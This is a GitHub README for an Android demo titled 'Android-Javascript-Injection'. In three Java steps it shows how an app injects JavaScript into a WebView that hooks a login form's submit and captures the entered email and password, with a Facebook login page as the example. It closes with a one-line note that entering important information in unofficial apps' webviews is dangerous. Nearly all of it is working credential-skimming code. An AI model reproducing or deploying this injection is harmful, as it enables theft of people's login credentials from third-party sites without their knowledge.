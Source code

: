 Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```



Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```



Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].type.toLowerCase() === 'password') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : facebook login injection
-----------
![](pic1.png)
<br/>
![](pic2.png)

<br/>
Note : it's dangerous to give important information in webview with unoffical app.
-----------

<br/><br/>
henrychuang.tw@gmail.com
